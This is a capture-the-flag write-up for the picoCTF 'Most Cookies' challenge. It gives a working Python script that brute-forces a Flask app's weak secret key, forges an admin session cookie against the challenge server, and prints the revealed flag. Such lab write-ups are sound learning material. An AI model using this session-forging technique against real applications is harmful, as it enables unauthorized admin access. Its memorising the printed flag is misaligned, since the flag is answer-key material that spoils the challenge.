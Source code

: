 
---

Taking a look at the source code in `server.py`, we notice the following:

- If we are at the `/display` page and inside the session cookie there is a variable called `very_auth` whose value is `admin`, then the flag is displayed.
```python
@app.route("/display", methods=["GET"])
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
```

So very simply, I captured the request using Burp Suite while on the `/display` page, and tried to play with the session cookie to add a `very_auth` variable with a value of `admin`.

![](./screenshots/most-1.png)

Observing the request we notice that the session cookie is in fact a JWT token, and if we highlight the first portion of the JWT, we see that it has: `"very_auth":"blank"`.
- So i tried to change it such that its value is `admin`, but to no avail, it doesn't work.

> This lead me to believe that to change the value of the JWT, we need to properly change the entire token such that the signature matches what the body contains.

To generate the valid signature, we need the secret key used, which luckily, is something we have in the source code of the `server.py` file.

```python
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)
```

> We can generate a script, that tries all of the above cookies as the secret key while making a call to the `/display` page to see which one works.

Taking the hint of flask session cookies, I searched the internet how to create session cookies using flask, and it turns out, the encoding process of the session cookies is what matters.
- I found this GitHub [Link](https://gist.github.com/aescalana/7e0bc39b95baa334074707f73bc64bfe) that has a simple script to encode session cookies.
- What's remaining is to add a loop functionality that loops over the list of possible secret keys, and then sends a request with the created session cookie to the `/display` page and check the response if the flag is inside it.

```python
from flask.sessions import SecureCookieSessionInterface
from itsdangerous import URLSafeTimedSerializer
import requests

class SimpleSecureCookieSessionInterface(SecureCookieSessionInterface):
    # Override method
    # Take secret_key instead of an instance of a Flask app
    def get_signing_serializer(self, secret_key):
        if not secret_key:
            return None
        signer_kwargs = dict(
            key_derivation=self.key_derivation,
            digest_method=self.digest_method
        )
        return URLSafeTimedSerializer(secret_key, salt=self.salt,
                                      serializer=self.serializer,
                                      signer_kwargs=signer_kwargs)

def decodeFlaskCookie(secret_key, cookieValue):
    sscsi = SimpleSecureCookieSessionInterface()
    signingSerializer = sscsi.get_signing_serializer(secret_key)
    return signingSerializer.loads(cookieValue)

# Keep in mind that flask uses unicode strings for the
# dictionary keys
def encodeFlaskCookie(secret_key, cookieDict):
    sscsi = SimpleSecureCookieSessionInterface()
    signingSerializer = sscsi.get_signing_serializer(secret_key)
    return signingSerializer.dumps(cookieDict)

if __name__ == '__main__':
    cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
    
    sessionDict = {'very_auth':'admin'}
    url = 'http://mercury.picoctf.net:44693/display'

    for sk in cookie_names:
        print(sk)
        cookie_value = encodeFlaskCookie(sk, sessionDict)
        cookies = {
            'session': cookie_value
        }
        response = requests.get(url, cookies=cookies, allow_redirects=False)

        if "Flag" in response.text:
            print(response.text)
            print("####################")
            print("\n\n\n\n\n")
            print(cookie_value)
            break
```

After running this code, we get the following output:

```
butter
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Most Cookies</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Reset</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Most Cookies</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{pwn_4ll_th3_cook1E5_dbfe90bf}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF</p>
        </footer>

    </div>
</body>

</html>
####################






eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZuKz8w.ejHMZnWAN0LCGYaExf8r88JeQKg
```

Therefore, the correct signing key was `butter`, and we used the flask encoding functionality to create our session cookie containing the value `very_auth:admin` and signed it with the secret key.
- The loops purpose was to send requests to the `/display` page with the cookie value, and check if the flag was returned, and it was.

> See printed at the bottom the value of the session cookie, or the JWT, that if we decode the first portion using Base64, we will get the value we encoded.

The flag:
```
picoCTF{pwn_4ll_th3_cook1E5_dbfe90bf}
```

---
